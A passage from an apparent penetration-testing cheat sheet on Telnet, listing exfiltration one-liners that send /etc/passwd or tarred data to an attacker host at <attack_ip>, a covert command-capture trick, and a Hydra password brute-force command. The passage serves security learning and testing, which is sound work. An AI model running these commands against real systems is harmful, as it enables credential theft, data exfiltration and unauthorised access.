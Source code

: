 *   **Tool:** \[\[Telnet]], \[\[Custom Scripts]]

    ```bash
    telnet <attack_ip> 23 < /etc/passwd
    ```
* **Description:** Sends sensitive files or data over a Telnet connection to an attacker-controlled system.

#### Concealing Data in Telnet Sessions

*   **Tool:** \[\[Telnet]], \[\[Custom Scripts]]

    ```bash
    tar cz /important/data | telnet <attack_ip> 23
    ```
* **Description:** Compresses and sends data over Telnet to conceal exfiltration activity.

#### Covert Data Transfer via Telnet

*   **Tool:** \[\[Custom Scripts]]

    ```bash
    echo "cat /etc/passwd" | telnet <target_ip> 23 > exfil.txt
    ```
* **Description:** Exfiltrate sensitive data by executing commands via Telnet and capturing the output.

#### Telnet-based File Transfer

*   **Tool:** \[\[Telnet]]

    ```bash
    telnet <target_ip> 23
    telnet> binary
    telnet> put file.txt
    ```
* **Description:** Transfer files using Telnet’s binary mode, often used in legacy systems.

## Exploits and Attacks

### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra telnet://<target_ip> -s 23 -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.

#### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]
